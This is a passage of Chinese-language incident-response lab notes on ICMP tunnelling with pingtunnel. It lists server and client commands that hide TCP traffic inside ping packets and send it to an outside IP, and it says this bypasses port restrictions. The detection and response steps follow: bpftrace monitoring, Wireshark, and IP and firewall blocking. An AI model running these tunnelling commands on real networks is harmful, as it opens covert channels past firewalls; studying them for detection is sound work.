 ```bash
sudo ./pingtunnel -type server -key 1234  //运行ICMP隧道工具并开始监听
```

这条命令以超级管理员权限，在当前目录下启动 `pingtunnel`程序，并将其配置为服务器模式，同时设置了一个简单的认证密钥 `1234`。它的核心任务是监听并处理来自客户端的特殊ICMP数据包，对其解封装，并将里面真正的流量转发到指定的目标地址。

受害者：

```bash
sudo ./pingtunnel -type client -l :4445 -s 121.196.209.235 -t 121.196.209.235:4444 -tcp 1 -key 1234
```

这条命令启动了一个名为 `pingtunnel` 的工具的客户端（client），其核心功能是：将本机的TCP流量封装在ICMP协议包（即ping请求和回复）中，发送给远程服务器，从而绕过网络中对常规TCP/UDP端口的限制

分析：

https://github.com/Just-Hack-For-Fun/request_monitor

https://blog.csdn.net/native_lee/article/details/124751325

安装：

```bash
sudo apt update
sudo apt install bpftrace
chmod +x request_monitor.sh
chmod +x request_monitor.bt
sudo ./request_monitor.sh xx.xx.xx.xx
ps -aux
```

流量：Wireshark分析

处置：封IP及防火墙限制协议

#### Windows-ICMP

实验：https://github.com/esrrhs/pingtunnel

```bash
sudo ./pingtunnel -type server -key 1234
pingtunnel.exe -type client -l :4445 -s 192.168.1.9 -t 192.168.1.9:4444 -tcp 1 -key 1234
```

分析：Microsoft Message Analyzer

流量：Wireshark分析

处置：封IP及防火墙限制协议